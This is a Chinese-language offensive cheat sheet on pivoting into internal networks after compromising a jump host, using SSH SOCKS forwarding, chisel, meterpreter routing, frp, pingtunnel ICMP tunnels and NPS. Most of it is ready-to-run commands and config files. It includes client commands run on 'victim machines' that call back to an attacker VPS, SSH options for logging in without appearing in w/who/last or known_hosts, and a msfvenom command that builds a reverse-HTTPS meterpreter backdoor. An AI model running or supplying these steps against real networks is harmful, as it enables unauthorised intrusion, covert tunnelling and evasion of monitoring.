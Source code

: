 ```yaml
---
sort: 1
---
```


# 内网穿透

## 1. SSH 代理

当获取到跳板机的权限后，可以使用 ssh 动态转发的功能开启 socks5 流量代理。  
在攻击机中执行：

```
ssh -fNgC -D 127.0.0.1:7070 root@<跳板机IP>
```

则可以通过`proxychains`或者 msf 中的`setg Proxies socks:127.0.0.1:7070`将流量转发到内网中

tips:  
隐身登录系统，不会被 w、who、last 等指令检测到。

```
ssh -T root@192.168.0.1 /bin/bash -i
```

不记录 ssh 公钥在本地.ssh 目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```

## 2. chisel

项目地址：`https://github.com/jpillora/chisel`

1. 正向代理
   使用场景: 公网中某机器被控制, 其存在双网卡, 同时具有公网 ip 和内网 ip
   下载后，在靶机中执行：

```
chisel server -p <listen_port> --socks5
```

`listen_port`代表本机开启的用于流量转发的端口，例如 7070  
在攻击机中执行：

```
chisel client <靶机IP>:<listen_port> 127.0.0.1:1080:socks
```

则攻击机中的 chisel 就会默认监听 1080 端口  
通过`proxychains`或者 msf 中的`setg Proxies socks:127.0.0.1:1080`将流量转发到内网中

2. 反向代理
   使用场景: 控制了目标内网中存在某可出网的机器, 通过在这台受害机中搭建代理隧道进入内网.
   在 VPS 中执行:

```
chisel server -p <listen_port> --reverse
```

`listen_port`代表 VPS 的 socks 代理隧道端口
在受害机中配置:

```
chisel client <VPS ip>:<listen_port> R:0.0.0.0:1080:socks
```

那么在 vps 的`1080`端口中, 便运行了 socks 服务

3. 端口转发
   将 server 的 8000 端口 clent 的 11111 端口

```
chisel.exe client <server_ip>:<port> 11111:127.0.0.1:8000
```

## 3. meterpreter 路由

设法在靶机中上传 meterpreter 的木马，然后在攻击机中的 msf 中连接这个木马，进入 meterpreter shell  
则可以通过：

```
run autorouter -s <内网ip段>
```

将跳板机连接的内网挂在到 msf 的路由中。msf 此时即可访问内网，实现内网穿透。

若跳板机未上线 msf, 则通过设置全局变量的方式挂代理:

```
setg Proxies socks5:192.168.247.143:64295
```

## 4. frp

1. 使用 frp 进行反向代理
   使用场景: 可控制一台能出网的受害机, 通过在这台受害机中搭建代理隧道进入内网.
   在 frp server 端(一般是 VPS)配置 frps.ini

```
[common]
bind_port = 7000
```

在 frp client 端(一般是受害机)配置 frpc.ini

```
[common]
server_addr = <VPS ip>
server_port = 7000  #与bind_port一致

[socks_proxy]
type = tcp
remote_port = 7777 # 远程主机的代理端口
plugin = socks5
```

分别在 server 和 client 运行`frps -c frps.ini`和`frpc -c frpc.ini`后，VPS 的`7777`端口就运行了 socks5 代理服务
通过代理工具连接`<边界机器IP>:7777`即可使用边界机器作为跳板进入内网

2. 使用 frp 进行端口转发
   例如现在某个机器的`3389`端口被防火墙拦截, 不能通过本机连接,那么可以将目标机器的 3389 端口转发到本地机器的某个端口

以 VPS 作为 server, 配置 frps.ini

```
[common]
bind_port = 7000
```

以目标机器作为 client, 配置 frpc.ini

```
[common]
server_addr = <VPS ip>
server_port = 7000  #与bind_port一致

[rdp]
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 6000
```

分别在 server 和 client 运行`frps -c frps.ini`和`frpc -c frpc.ini`后，远程主机的`3389`端口就被转发到本地的`6000`端口了

## 5. ICMP 隧道

工具: pingtunnel, 步骤如下

1. 服务端, 转发服务器, 一般使我们的 vps

```
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all
sudo ./pingtunnel -type server
```

2. 客户端, 一般是受害机, 需要以 admininstrator 权限运行

```
pingtunnel -type client -l 127.0.0.1:<lport> -s <server_ip> -t <tunnel_addr>:<rport> -tcp 1
```

代表将客户端本地的`<lport>`端口通过`<server_ip>`转发至`<tunnel_addr>:<rport>`, 使用 tcp 服务
参数解释:

```
-l: 要转发的本地端口
-s: icmp tunnel服务器, 也可以是我们的vps, 但是这个服务器一定要能ping通需要转发到的目的地址
-t: 要转发的目标地址端口, icmp tunnel服务器会中转访问该地址
-tcp: 使用tcp协议
```

3. 生成后门文件, 以 msf 为例, 反弹地址为 127.0.0.1, 端口为受害机的`<lport>`

```
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=127.0.0.1 LPORT=4444 -o ~/Desktop/backdoor.exe
```

cs 同理, 反弹地址为`127.0.0.1`, 端口为受害机的`<lport>`

4. 在受害机中运行后门文件, 即可通过 icmp 隧道上线

set AutoRunScript post/windows/manage/migrate

5. 利用`pingtunnel`进行`socks5`转发:

![](vx_images/232442129585.png)

服务端按步骤 1 启动服务, 客户端运行:

```
pingtunnel.exe -type client -l:4455 -s <server_ip> -sock5 1
```

运行后在客户端的`4455`端口就运行着`socks5`代理

## 6. UDP 隧道

![](vx_images/4734831111159.png)

## 7. NPS

地址: [https://github.com/ehang-io/nps/releases](https://github.com/ehang-io/nps/releases)

文档: [https://ehang-io.github.io/nps/#/?id=nps](https://ehang-io.github.io/nps/#/?id=nps)
